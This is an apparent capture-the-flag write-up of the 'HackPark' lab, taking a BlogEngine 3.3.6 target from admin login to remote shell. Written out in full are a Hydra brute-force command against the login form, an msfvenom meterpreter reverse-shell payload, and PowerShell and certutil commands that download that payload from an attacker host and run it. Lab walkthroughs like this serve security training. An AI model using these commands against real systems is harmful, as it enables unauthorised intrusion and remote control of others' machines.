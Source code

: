 We begin by brute-forcing the login page we found during our enumeration. We make use of Hydra. A bit of Googling reverse that one possible form of Hydra attack for an http-form POST request is:

```bash
hydra -l <username> -P <password list> $ip http-form-post "<path to login form>:<http post request body>:<invalid login pattern>" -V
```

For this to work, we need a few parameters:

- `<username>`: In this case, this is just admin.
- `<password list>`: We have a few choices here. We'll make use of the usual rockyou.txt password list.
- `$ip$`: This is the IP of the target machine.
- `<http post request body>`: This is the body of the HTTP post request we found using Burp. In general, we need to replace at least one of the username or password fields in the request body with `^USER^` or `^PASS^`, respectively. Since in this case we know the username, we can just use the password string.
- `<invalid login pattern>`: This is a string which Hydra will use to identify a failed login. We can test this directly on the login page and we find that "Login Failed" is the phrase returned for a failed login attempt.

Putting this together, the final command then becomes:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.0.19 http-post-form "/Account/login.aspx:__VIEWSTATE=VCLL4AD5hj4eU3c7OwZCMFSLrZgnuwNWwqU14ymrpSECMRMEss1jMVYmVb67U%2FpsBcK4tYfVcmqrQ%2B95Jw3qZzSMDHpPIKoIenuCluq6CFcmlVtKvP9qEozi293OcTTtm4qs%2Bf2KgjvhxZRnGxbLjaieg4PILs7zGesG7KaJ0cBNnJCJ&__EVENTVALIDATION=uri6bSKQN1p12IRWrOAPflhnCzioDymlveM9EI3FTCbZDuejIqx1mmjj1frSwFIxJVP67K%2BbeYtAFGpcmnK3vS7Fnnht8ZBu1RwEyFOmtErPCc0hDk71fYe4aqxdDJL%2BzggAaduPYQgoTwhO7cB9U7vuIHO7QtDBD6hYfu5TumyNHhLp&ctl00%24MainContent%24LoginUser%24UserName=admin&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login Failed" -V
```

<center>

![e9040c88c5d9d7bd978ab69d4fcf28ca.png](HackPark/_resources/e9040c88c5d9d7bd978ab69d4fcf28ca-1.png)

</center>

After a short while (about 1400 attempts), we obtain the password to the admin account.

<center>

![e787b6c51985dc37e38b1ac38853b00d.png](HackPark/_resources/e787b6c51985dc37e38b1ac38853b00d-1.png)

</center>

Now that we have access to the admin account, we want to find a vulnerability which we can exploit to gain an initial foothold. Navigating to the admin page via the sidebar and then locating the about page reveals the version of BlogEngine.

<center>

![c0b94d9a6ccaf6773f8290789f22ea26.png](HackPark/_resources/c0b94d9a6ccaf6773f8290789f22ea26-1.png)

</center>

Searching for "Blog Engine 3.3.6" on exploit DB gives us a few options; we will use [this exploit](https://www.exploit-db.com/exploits/46353) for remote code execution. Download the exploit and open the code in Mousepad. We need to change the TcpClient IP to the attacker IP. We will listen on the indicated port (in this case, I've chosen port 9999).

<center>

![24c39b9e1c067839ba50736b1bdd57ae.png](HackPark/_resources/24c39b9e1c067839ba50736b1bdd57ae-1.png)

</center>

Start a netcat listener on the attacking machine.

<center>

![f81b1fd29f92bd75ef391547a6f8a90e.png](HackPark/_resources/f81b1fd29f92bd75ef391547a6f8a90e-1.png)

</center>

We will run the exploit by following the instructions given in the C# file. Look for a published post using the admin dashboard and click on it to begin editing.

<center>

![2481f63928dad8cff301cb68653c3645.png](HackPark/_resources/2481f63928dad8cff301cb68653c3645-1.png)

</center>

In the editor, click on the folder icon to open the file manager. Then rename the C# file to `PostView.ascx` and upload it.

<center>

![54df4778576ce55f5a526059f55af926.png](HackPark/_resources/54df4778576ce55f5a526059f55af926-1.png)

</center>

We then trigger the file by navigating to `10.10.0.19/?theme=HackPark/App_Data/files`. Going back to our netcat listener, we see that we've caught a reverse shell.

<center>

![2142b8b7632e79fef82e5eec0c0c9b33.png](HackPark/_resources/2142b8b7632e79fef82e5eec0c0c9b33-1.png)

</center>

Since our shell is unstable, we will pivot from netcat to a meterpreter session. Start by generating a reverse shell payload with msfvenom.

`msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.6.30.43 LPORT=9999 -f exe -o hackparkshell.exe
`

We then open a web server with `python3 -m http.server` within the directory containing the reverse shell executable. Meanwhile, in our netcat session we navigate to `C:\Windows\Temp` (since we don't seem to have write permissions elsewhere) and run the following command to download the msfvenom reverse shell payload.
```powershell
powershell -command "Invoke-WebRequest -OutFile shell.exe -Uri 10.6.30.43:8000/hackparkshell.exe"
```

We can also use the following command to download files onto a Windows machine.
```powershell
certutil.exe -urlcache -f http://10.6.30.43/hackparkshell.exe shell.exe
```

In another terminal window, we open up Metasploit to set up the reverse handler. We use  ``use exploit/multi/handler`` and we set the following options:

<center>

![e18242f0bff037e0f026b24a82b01662.png](HackPark/_resources/e18242f0bff037e0f026b24a82b01662-1.png)

</center>

Now ``run``  to start the reverse TCP handler. Back in our netcat session, we execute the shell with `shell.exe`. This will give us our meterpreter shell.